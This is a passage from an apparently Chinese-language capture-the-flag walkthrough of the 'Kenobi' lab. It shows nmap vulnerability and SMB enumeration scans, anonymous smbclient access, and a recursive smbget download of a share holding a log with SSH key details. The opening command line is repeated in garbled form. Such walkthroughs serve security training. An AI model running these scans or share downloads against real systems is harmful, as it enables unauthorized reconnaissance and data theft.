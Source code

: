 ```nmap -sV -vv --script=vuln TARGET_IP```nmap -sV -vv——script=vuln TARGET_IP ' ' 'nmap -sV -vv——script=vuln TARGET_IP ' ' ' nmap -sV -vv——script=vuln TARGET_IP ' ' '
    root@ip-10-10-156-25:~# nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.14.7
    ···
    Host script results:
    | smb-enum-shares: 
    |   account_used: guest
    |   \\10.10.14.7\IPC$: 
    |     Type: STYPE_IPC_HIDDEN
    |     Comment: IPC Service (kenobi server (Samba, Ubuntu))
    |     Users: 2
    |     Max Users: <unlimited>
    |     Path: C:\tmp
    |     Anonymous access: READ/WRITE
    |     Current user access: READ/WRITE
    |   \\10.10.14.7\anonymous: 
    |     Type: STYPE_DISKTREE
    |     Comment: 
    |     Users: 0
    |     Max Users: <unlimited>
    |     Path: C:\home\kenobi\share
    |     Anonymous access: READ/WRITE
    |     Current user access: READ/WRITE
    |   \\10.10.14.7\print$: 
    |     Type: STYPE_DISKTREE
    |     Comment: Printer Drivers
    |     Users: 0
    |     Max Users: <unlimited>
    |     Path: C:\var\lib\samba\printers
    |     Anonymous access: <none>
    |_    Current user access: <none>
    ```
    
+ 查看远程服务器共享的目录:

    ```
    root@ip-10-10-156-25:~# smbclient //10.10.14.7/anonymous
    WARNING: The "syslog" option is deprecated
    Enter WORKGROUP\root's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Wed Sep  4 11:49:09 2019
    ..                                  D        0  Wed Sep  4 11:56:07 2019
    log.txt                             N    12237  Wed Sep  4 11:49:09 2019

            9204224 blocks of size 1024. 6876728 blocks available
    smb: \> 
    ```

+ 递归下载SMB共享文件：

    ```
    root@ip-10-10-156-25:~# smbget -R smb://10.10.14.7/anonymous
    Password for [guest] connecting to //anonymous/10.10.14.7: 
    Using workgroup WORKGROUP, user guest
    smb://10.10.14.7/anonymous/log.txt                                                                                                                      
    Downloaded 11.95kB in 9 seconds
    root@ip-10-10-156-25:~# ls
    CTFBuilder  Desktop  Downloads  Instructions  log.txt  Pictures  Postman  Rooms  Scripts  thinclient_drives  Tools  
    ```
+ 查看下载的文件log.txt: ```cat log.txt```

        + 为用户生成SSH密钥时为Kenobi生成的信息
```